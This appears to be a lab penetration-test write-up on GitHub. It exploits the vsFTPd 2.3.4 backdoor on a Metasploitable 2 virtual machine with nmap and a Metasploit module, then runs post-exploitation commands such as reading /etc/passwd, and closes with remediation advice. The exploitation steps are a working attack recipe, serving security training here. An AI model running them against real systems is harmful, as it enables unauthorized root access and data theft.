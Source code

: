 # Metasploit Exploit

## Target: Metasploitable 2 (Linux)

## Executive Summary
 **This penetration test aimed to exploit a vulnerable FTP service on a Metasploitable 2 machine using Metasploit. The successful attack led to root access, allowing full control over the system. The findings demonstrate the risk of running outdated services with known vulnerabilities.** 
________________________________________
## Scope & Objectives
## Scope:
**•	Target machine: Metasploitable 2 (IP: 192.168.235.132)**
**•	Attacker machine: Kali Linux**
**•	Exploited service: vsFTPd 2.3.4 (Port 21)**
## Objectives:
 **1.	Identify vulnerabilities in the target system.**
 **2.	Exploit vsFTPd 2.3.4 backdoor vulnerability.**
 **3.	Gain unauthorized access and escalate privileges.**
 **4.	Document findings and suggest remediation.**
________________________________________
## Exploitation Process
 **Information Gathering**
  **Using Nmap to scan open ports and services:**
  **````nmap -sV -A <target-IP>````**
![image](https://github.com/user-attachments/assets/cd504c33-0559-4eab-b88e-43dcbd42d438)
![image](https://github.com/user-attachments/assets/678a6291-4f8d-4c19-9fa7-457af37648c6)
![image](https://github.com/user-attachments/assets/9ed00286-e1b9-4230-8976-99e91c5eb220)
![image](https://github.com/user-attachments/assets/216dd39a-1ba1-4599-b244-0241d75ea6bc)
![image](https://github.com/user-attachments/assets/cf7e4253-ceb8-4878-a11d-e36790224479)
![image](https://github.com/user-attachments/assets/0a9e5032-b054-4b34-ada6-a1964ac68a04)
![image](https://github.com/user-attachments/assets/716367b5-fee7-435a-872e-929ee34e2954)

 **Findings: Port 21 (FTP) running vsFTPd 2.3.4, a vulnerable version.**
 **Exploitation with Metasploit**
 **1.Launch Metasploit:**
  **```msfconsole```**
![image](https://github.com/user-attachments/assets/e5c5780d-df07-4268-bd26-7a1f4e1f6e60)
 **2.Use the exploit:**
 **```exploit/unix/ftp/vsftpd_234_backdoor```** ,
 **```set RHOSTS <target-IP>```**  
 **```exploit```**
![image](https://github.com/user-attachments/assets/23d873f3-4449-43e0-9af4-00a8fb964ab9)
 **Successful shell access obtained:[+] UID: uid=0(root) gid=0(root)  ,  [*] Command shell session 1 opened**
 ![image](https://github.com/user-attachments/assets/08335b89-439f-4c55-83e7-688ff5b73835)
**Post-Exploitation**
**Commands executed to extract system details:**

**whoami      # Confirm root access** ,
**uname -a    # System information** ,
**cat /etc/passwd  # List system users**
![image](https://github.com/user-attachments/assets/40849ee0-8a3e-45c8-9c18-0b0e99ee318e)
 **ps aux      # Running processes** 
![image](https://github.com/user-attachments/assets/99bfe22b-17e9-41a5-882e-a2b463857dab)
 netstat -tulnp  # Active network connections
 ![image](https://github.com/user-attachments/assets/28112e4e-b185-4ed5-b1e8-a082240524ee)

 ## Findings & Impact
**Findings:**
 **1.	vsFTPd 2.3.4 backdoor allowed unauthenticated root access.**
 **2.	No firewall or intrusion detection prevented exploitation.**
 **3.	The system contained multiple misconfigured user accounts.**
 **Impact:**
 **•	High risk: Root access means full control over the machine.**
 **•	Potential for further attacks: Could be used for lateral movement in a network.**
 **•	Data exposure: Access to system files, logs, and stored credentials.**
________________________________________
## Recommendations & Remediation
 **1.	Update vsFTPd to the latest secure version.**
 **2.	Disable unused services to minimize attack surface.**
 **3.	Implement firewall rules to restrict unauthorized access.**
 **4.	Use intrusion detection systems (IDS) like Snort or Suricata.**
 **5.	Enforce strong authentication mechanisms to prevent unauthorized access.**
________________________________________
## Conclusion
**This penetration test successfully exploited a known vulnerability in vsFTPd, leading to full system compromise. The findings highlight the importance of regularly updating and securing systems. Implementing the recommended security measures will reduce the risk of future attacks.**

